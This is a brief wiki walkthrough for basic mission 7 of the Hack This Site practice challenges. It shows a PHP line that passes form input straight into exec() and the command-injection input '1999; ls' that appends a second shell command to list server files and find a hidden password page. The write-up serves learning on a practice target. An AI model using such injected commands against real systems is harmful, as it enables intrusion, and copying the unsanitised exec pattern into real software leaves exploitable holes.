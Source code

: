 This mission requires basic knowledge of linux shell commands and operators. The command "ls" lists the contents of a directory, while the semicolon (";") character ends one command without requiring a newline / RET.
<br>You need to end the "cal" command and run ls. The script being run is similar in effect to
<pre>echo exec("cal ... ".$_POST['cal']);</pre>
With a normal input (a 4 digit number) the code is effectively
<pre>echo exec("cal ... 1999");</pre>
We want to end the "cal" command and start the "ls" command, so we use a semicolon, making the input "1999; ls" and the code
<pre>echo exec("cal ... 1999; ls");</pre>
This should output the normal calendar information, and at the bottom there should be something like
<pre>.
..
level7.php
cal.pl

index.php
k1kh31b1n55h.php
perl5.8.9.core</pre>
Go to /basic/7/TheObscureFileYouJustFound.php . There's your password!

[[Category:Hack This Site]]